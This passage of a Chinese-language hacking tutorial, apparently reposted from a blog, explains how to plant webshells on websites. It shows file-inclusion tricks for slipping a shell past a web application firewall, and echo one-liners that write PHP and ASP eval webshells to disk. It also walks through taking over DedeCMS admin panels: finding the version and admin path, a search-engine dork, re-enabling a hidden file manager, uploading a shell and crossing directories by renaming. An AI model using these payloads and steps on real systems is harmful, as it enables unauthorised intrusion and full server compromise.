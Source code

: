         

**9.文件包含**-
可绕过waf拿webshell。借助文件包含躲避waf拦截。一般用来上大马用-
_asp 包含代码_

    <!--#include file="123.jpg"-->
    #调用的文件必须和被调用文件在同一目录，如果不在同一目录，用下面的语句：
    <!--#include  virtual="文件所在目录/123.jpg"-->
    
        

_php包含_

    <?php
    include('123.jpg');
    ?>
    
        

**10\. 命令执行**

    echo ^<^?php @eval($_POST['cmd']);?^>^ > c:\1.php
    
    ^<^%eval request("cracer")%^>^ > c:\1.php
    # 需要知道网站路径
    
        

## 常见cms后台拿shell

## dedecms

dedecms版本：http://192.168.1.10:8030/data/admin/ver.txt-
默认后台：http://192.168.1.10:8030/dede/

    # dedecms后台一般都被修改不好找，可借助google语法：
    Powered byDedeCMSV57_GBK_SP2 site:xx.com
    
        

**一、后台文件上传**-
进入后台：核心》附件管理》文件式管理器》可直接修改源码或者上传shell-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020062823393559.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)写马-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234016367.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)连接-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234035124.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)如果目标“文件式管理器”接口被阉割，也许只是单纯的在前端删除了入口。可以修改js调用：

    media_main.php?dopost=filemanager
    #找到任意按钮修改js代码如图，即可再次调用文件管理
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234204673.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)如果权限被限制无法上传到upload以外的目录。通过修改名称跨越目录，绕过权限封锁-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234246418.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

